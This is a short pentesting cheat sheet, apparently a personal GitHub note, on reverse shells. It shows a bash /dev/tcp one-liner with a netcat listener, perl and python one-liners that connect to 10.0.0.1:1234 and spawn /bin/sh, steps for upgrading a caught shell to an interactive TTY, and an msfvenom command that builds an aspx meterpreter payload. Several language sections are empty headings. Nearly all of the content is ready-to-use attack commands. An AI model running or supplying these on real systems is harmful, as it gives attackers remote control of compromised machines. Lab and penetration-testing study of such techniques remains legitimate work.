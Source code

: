 # shells

## Upgrading simple shells to interactive TTYs

```bash
pwned-box$ ^Z                     # suspend the process
host-machine$ echo $TERM          # get the terminal type
host-machine$ stty -a             # get the number of rows/cols
host-machine$ stty raw -echo      # convert terminal to raw
host-machine$ fg                  # re-open the reverse shell
pwned-box$ reset                  # reset the terminal of the reverse shell
pwned-box$ export SHELL=bash      # set the TTY settings: SHELL, TERM, and dimensions
pwned-box$ export TERM=screen
pwned-box$ stty rows <n_rows> cols <n_cols>
```

## reverse shells

### bash
- Tested using
  - Active machine: `Kali Linux 5.7.0`
  - Passive machine: `bash 5.1.4(1)-release` (Kali Linux vagrant box)
- Be sure that `bash` is in use, not `zsh`!

```
# set up netcat listener on active machine
nc -l -vvv -p (nc listener port)

# create reverse shell
# - bash -i :: start interactive bash shell
# - >&      :: redirect both stdout and stderr (fd 1 and 2)
# - /dev/tcp/ip/port :: bash specific syntax for TCP socket connection to ip:port
# - 0<&1    :: redirect fd 1 (connected to the socket) to stdin

bash -i >& /dev/tcp/(active machine)/(nc listener port) 0<&1
```

### perl (untested)

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python (untested)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP (untested)

### ruby (untested)

### netcat 

### java

### xterm

## msfvenom

### aspx

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```

## References
- [Pentestmonkey Reverse Shell Cheatsheet](http://web.archive.org/web/20180702062128/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse shell with bash](http://web.archive.org/web/20180625050916/http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [The TTY demystified](http://www.linusakesson.net/programming/tty/)
- [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
